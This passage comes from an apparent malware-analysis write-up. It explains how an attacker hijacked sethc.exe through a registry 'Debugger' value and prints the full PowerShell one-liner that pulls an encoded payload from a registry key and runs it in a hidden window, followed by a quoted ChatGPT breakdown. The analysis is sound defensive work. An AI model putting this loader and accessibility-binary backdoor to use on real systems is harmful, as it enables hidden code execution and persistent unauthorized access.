 

`5.` In the next action, you can see that `sethc.exe` is used to execute ***Windows Powershell***. I assume that this is disabled at first. In this context, the malware used this specific technique to impair the defense of the system(`[Impair Defenses, Technique T1562 - Enterprise | MITRE ATT&CK®](https://attack.mitre.org/techniques/T1562/)`).

Notice that the powershell is activated in Windows without popping up the ***`ps`*** window.

![](/assets/img/Pasted image 20240405044639.png)

	- In this context, the attacker add the registry subkey "Debugger" under '\sethc.exe' and piggybacks on the 'sethc.exe' s capabilities in Windows to trigger a hidden powershell process executing a payload contained in `$x` variable which is the registry key "HKLM\SOFTWARE\Microsoft\Network\Debug" that contains the payload.


<u>Breakdown of this command with ChatGPT</u>:

```c
The command `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKLM:Software\Microsoft\Network debug).debug);start -Win Hidden -A \"-enc $x\" powershell";exit;` is a PowerShell command designed to execute a specific sequence of actions on a Windows system. Let''s break it down:

1. **`"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"`**: This part specifies the path to the PowerShell executable on a Windows system. It indicates that PowerShell will be launched.
    
2. **`-c "$x=$((gp HKLM:Software\Microsoft\Network debug).debug);start -Win Hidden -A \"-enc $x\" powershell"`**: This is the argument passed to PowerShell to execute a script or command.
    
    - **`$x=$((gp HKLM:Software\Microsoft\Network debug).debug)`**: This segment retrieves the value of the registry key '`HKLM:Software\Microsoft\Network debug`' and assigns it to the variable '`$x`' in PowerShell. The `(gp ...)` is shorthand for the '`Get-ItemProperty`' cmdlet in PowerShell, used to retrieve the properties of a specified item (in this case, the registry key).
        
    - **`;`**: This semicolon separates multiple commands in PowerShell. Here, it separates the command to retrieve the registry value from the next command.
        
    - **'`start -Win Hidden -A \"-enc $x\" powershell"`'**: This command starts a new instance of PowerShell with specific parameters.
        
        - **'start'**: This command initiates a new process.
            
        - **'-Win Hidden'**: This parameter starts the new process window in a hidden state. Thus, the PowerShell window won't be visible to the user.
            
        - **'-A'**: This parameter specifies arguments to pass to the new process. The argument provided here is `-enc $x`, which indicates that the value of `$x` (retrieved from the registry) will be passed as an encoded command to the new PowerShell process.
            
        - **'powershell'**: This denotes that the new process being started is another instance of PowerShell.
            
3. **'exit;'**: This part exits the current PowerShell session after executing the previous commands.
    

In summary, this command retrieves a value from a specific registry key, initiates a new hidden instance of PowerShell, and passes the retrieved value as an encoded command to that new instance of PowerShell. Finally, it exits the current PowerShell session.
```
